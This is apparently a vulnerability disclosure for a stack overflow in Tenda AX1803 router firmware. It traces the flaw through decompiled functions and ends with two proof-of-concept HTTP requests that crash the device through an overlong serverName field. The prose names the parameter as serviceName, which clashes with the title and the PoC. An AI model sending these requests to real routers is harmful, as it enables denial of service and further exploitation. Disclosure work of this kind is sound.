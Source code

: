 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the serverName parameter in the function fromAdvSetMacMtuWan

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

## Vulnerability Description

The `form_fast_setting_internet_set` function in Tenda AX1803 v1.0.0.1 first extracts the value of the `netWanType` parameter from the POST request, and then passes this value to the `sub_569BC` function as the third parameter. By controlling the content of the POST request, we set the value of the `netWanType` parameter to 2, which is then passed as the third parameter to the `sub_569BC` function.![QQ截图20240319205702](C:\Users\16673\Desktop\QQ截图20240319205702.png)

In the `sub_569BC` function, the `sprintf` function is utilized to concatenate the `wan1.connecttype` string. Subsequently, the `SetValue` function is employed to assign the value of the environment variable `wan1.connecttype` to the third parameter `a3` passed into the `sub_569BC` function, with a value of 2.

![QQ截图20240319205842](C:\Users\16673\Desktop\QQ截图20240319205842.png)

The focus moves to the `fromAdvSetMacMtuWan` function. Here, the value "2" obtained from the POST request for the environment variable string `wan1.connecttype` is passed to `v6`, triggering the execution of the `sub_8C594` function.![QQ截图20240319211358](C:\Users\16673\Desktop\QQ截图20240319211358.png)

In the `sub_8C594` function, the value of the `serviceName` parameter is extracted from the POST request, and then passed to the `strcpy` function, resulting in a buffer overflow.

![QQ截图20240319214910](C:\Users\16673\Desktop\QQ截图20240319214910.png)

## POC

First SetValue with poc:

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.76.149
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=aaaa
```

Then call fromAdvSetMacMtuWan and trigger overflow.

```
POST /goform/AdvSetMacMtuWan HTTP/1.1
Host: 192.168.76.149
Content-Length: 56
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.76.149
Referer: http://192.168.76.149/mac_clone.html?random=0.7547959184452664&
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

wanMTU=1285&wanSpeed=0&cloneType=0&mac=00:00:00:00:00:01&serviceName=&serverName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

We trigger a stack overflow vulnerability after sending the poc, and you may modify this for further exploiting.

